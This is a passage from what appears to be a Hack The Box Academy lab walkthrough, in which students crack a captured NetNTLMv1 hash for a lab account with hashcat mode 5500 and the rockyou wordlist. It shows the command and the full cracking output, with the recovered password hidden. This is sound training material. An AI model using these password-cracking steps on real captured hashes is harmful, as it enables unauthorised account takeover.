 ```

<SNIP>
```

Students will copy the output in the `hashcat NETNTLM` value and will return to their workstations to crack the hash using `hashcat`, the `rockyou.txt` wordlist located in `/usr/share/wordlists` and specifying the `5500` mode to recover the plaintext password:

Code: shell

```shell
hashcat -m 5500 -a 0 HTB\\Sentinal.Jr::::f2ba2d7a26863b202ef7fa8803<SNIP>77692e:5635e5b0c5299860 /usr/share/wordlists/rockyou.txt.gz
```

```
┌─[eu-academy-6]─[10.10.14.121]─[htb-ac-8414@htb-8rkgr5npc7]─[~]
└──╼ [★]$ hashcat -m 5500 -a 0 HTB\\Sentinal.Jr::::f2ba2d7a26863b202ef7fa8803<SNIP>77692e:5635e5b0c5299860 /usr/share/wordlists/rockyou.txt.gz

hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]

<SNIP>

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 1 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt.gz
* Passwords.: 14344385
* Bytes.....: 53357329
* Keyspace..: 14344385

HTB\Sentinal.Jr::::f2ba2d7a26863b202ef7fa8803<SNIP>77692e:5635e5b0c5299860:{hidden}
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5500 (NetNTLMv1 / NetNTLMv1+ESS)
Hash.Target......: HTB\Sentinal.Jr::::f2ba2d7a26863b202ef7fa8803ea5e216...299860
Time.Started.....: Wed Jan  8 06:36:08 2025 (0 secs)
Time.Estimated...: Wed Jan  8 06:36:08 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt.gz)
Guess.Queue......: 1/1 (100.00%)
Speed.#2.........:  1784.7 kH/s (0.12ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 2048/14344385 (0.01%)
Rejected.........: 0/2048 (0.00%)
```
